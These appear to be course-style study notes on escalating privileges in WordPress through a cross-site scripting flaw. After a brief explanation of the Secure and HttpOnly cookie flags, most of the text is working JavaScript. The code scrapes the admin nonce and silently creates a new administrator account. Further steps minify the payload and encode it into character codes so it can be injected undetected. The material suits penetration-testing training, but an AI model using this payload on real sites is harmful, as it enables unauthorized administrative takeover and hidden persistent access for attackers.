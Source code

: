 ## Privilege Escalation via XSS
- `Secure flag`: instructs the browser to only send the cookie over encrypted connections, such as HTTPS. This protects the cookie from being sent in clear text and captured over the network.
- `HttpOnly flag`: instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

1. Gathering WordPress Nonce
```javascript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```
    
2. Creating a New WordPress Administrator Account
```javascript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

3. Minifying the attack code into a one-liner,
- [JSCompress](https://jscompress.com/)
![image](https://hackmd.io/_uploads/HJBGk9Vfyx.png)

4. Encode the minified JavaScript code
- JS Encoding JS Function
```JavaScript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

![image](https://hackmd.io/_uploads/rkEmg5NM1g.png)
Run the function from the browser's console to Unicode.
